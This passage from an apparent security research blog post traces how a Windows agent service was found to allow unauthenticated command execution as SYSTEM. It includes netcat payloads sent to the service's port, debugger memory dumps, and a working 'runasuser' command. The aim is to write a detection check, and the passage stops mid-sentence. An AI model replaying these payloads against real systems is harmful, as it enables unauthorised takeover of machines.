 ```
<font color="#00FF00">ron@armitage</font> <font color="#8080FF">~ $</font> echo -ne "12345\0myuser\0mypass\0mycommand\0" | nc -vv 192.168.1.112 1234
192.168.1.112: inverse host lookup failed: 
(UNKNOWN) [192.168.1.112] 1234 (?) open
```

When it breaks, I dump the memory at ecx - the register that stores the command:

```
Breakpoint 0 hit
eax=00000000 ebx=001576a8 ecx=00a2db48 edx=00a29cc0 esi=00000029 edi=00000000
eip=0040b95e esp=00a2978c ebp=00a2df60 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
xxxxxxxx+0xb95e:
0040b95e ff15cc004300    call    dword ptr [xxxxxxxx+0x300cc (004300cc)] ds:0023:004300cc={kernel32!CreateProcessA (77e424b9)}
0:001> db ecx
00a2db48  43 3a 5c 50 52 4f 47 52-41 7e 31 5c xx xx xx xx  C:\PROGRA~1\XXXX
00a2db58  xx xx 7e 31 5c xx xx xx-xx 5c 41 67 65 6e 74 5c  XX~1\XXXX\Agent\
00a2db68  6d 79 63 6f 6d 6d 61 6e-64 20 00 00 00 00 00 00  mycommand ......
```

Aha! It's prepending the path to the program's folder to our command and passing it to CreateProcessA! The natural thing to do is to use '../' to escape this folder and run something else, but that doesn't work. I never actually figured out why - and it seemed to kinda work - but it was doing some sort of filtering that would give me bad results. Eventually, I had an idea - which programs are stored in that folder anyways?  
![](http://skullsecurity.org/blogdata/31-remoteexec-programs.png)

execute.exe? hide.exe? runasuser.exe? Could it BE that simple?

I fire up netcat again:

```
<font color="#00FF00">ron@armitage</font> <font color="#8080FF">~ $</font> echo -ne "12345\0myuser\0mypass\0runasuser calc\0" | nc -vv 192.168.1.112 1234
192.168.1.112: inverse host lookup failed: 
(UNKNOWN) [192.168.1.112] 1234 (?) open
 sent 35, rcvd 1
```

And check the process list:  
![](http://skullsecurity.org/blogdata/33-remoteexec-calc-running.png)

And ho-ly crap! We have command execution! Unauthenticated! As SYSTEM!! Game over, I win!

## Writing the check

But wait, there's no output on netcat. No indication at all that this worked, in fact. Crap! Wut do?

It occurred to me that this particular application also has a Web server built in. Can I write to files using this command execution? I try:
